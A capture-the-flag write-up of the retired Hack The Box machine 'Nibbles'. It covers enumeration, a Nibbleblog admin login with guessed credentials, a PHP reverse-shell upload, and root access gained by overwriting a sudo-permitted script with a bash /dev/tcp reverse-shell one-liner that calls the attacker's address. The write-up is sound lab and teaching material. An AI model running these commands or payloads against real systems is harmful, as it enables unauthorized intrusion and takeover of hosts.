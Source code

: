 ```yaml
---
title: "HTB: Nibbles Writeup"
date: 2025-08-20 08:00:00 +0000
categories: [CTF, HTB]
tags: [ctf, htb, easy, enumeration, privilege-escalation, web, linux]
author: "Saad Azil"
pin: false
---
```


![Nibbles Box](/assets/images/nibbles/NIBBLES.png)

**OS:** Linux  
**Difficulty:** Easy  
**Machine IP:** 10.10.10.75

Nibbles is a retired box on Hack The Box that provides a great introduction to common enumeration techniques, web application exploitation, and privilege escalation through file misconfigurations.

---

## Enumeration

The first step is to scan the target machine with `nmap` to identify open ports and services.

```bash
nmap -sV -sC -oN nmap_scan 10.10.10.75
```

![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

The scan reveals two open ports:
- **Port 22:** SSH
- **Port 80:** HTTP

Before exploring the web server, I added the machine's IP to my `/etc/hosts` file to access it by its domain name, `nibbles.htb`.

![Domain Name](/assets/images/nibbles/domain_name.png)

Navigating to `http://nibbles.htb` in a browser initially shows a blank page. However, viewing the page's source code reveals a hidden directory: `/nibbleblog/`.

![Source Page](/assets/images/nibbles/source_page.png)

This directory leads to a blog powered by Nibbleblog.

![Blog Page](/assets/images/nibbles/blog_page.png)

To find more hidden files or directories, I used `gobuster`:

```bash
gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt
```

![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

The `README` file reveals the Nibbleblog version: `v4.0.3`.

![Readme](/assets/images/nibbles/readme.png)

A quick search for this version reveals a critical vulnerability: **Arbitrary File Upload**. To exploit this, we need to gain access to the admin panel. After some guessing, I found the credentials to be:

- **Username:** `admin`
- **Password:** `nibbles`

## Gaining a Foothold

With admin access, I could now exploit the file upload vulnerability. The goal is to upload a reverse shell. I used a common PHP reverse shell script.

1.  **Login** to the admin panel at `http://nibbles.htb/nibbleblog/admin.php`.
2.  Navigate to **Plugins** → **My Image**.
3.  **Upload** the PHP reverse shell.

![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)

Once the shell is uploaded, set up a Netcat listener on your local machine:

```bash
nc -lvnp 6666
```

Then, access the uploaded shell at `http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php` to trigger the connection.

![Get Shell](/assets/images/nibbles/get_shell.png)

I upgraded the shell for better stability:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

Now, as the `nibbler` user, I can grab the user flag from the home directory.

![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

To escalate privileges, I checked for `sudo` permissions:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

The output shows that the `nibbler` user can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

I found a `personal.zip` file in the user's home directory, which I unzipped to find the `monitor.sh` script.

![Unzip The File](/assets/images/nibbles/'the zip fie.png')

Since I have write permissions on the script, I can overwrite it with a payload to get a root shell. I echoed a new reverse shell command into the script:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

I started another Netcat listener on port `6666` and executed the script with `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![run the reverse shell](/assets/images/nibbles/'run the reverse shell.png')

This provides a root shell.

![get the root shell](/assets/images/nibbles/get_root_shell.png)

Finally, I could read the root flag.

![root flag](/assets/images/nibbles/root_flag.png)

And we are done!
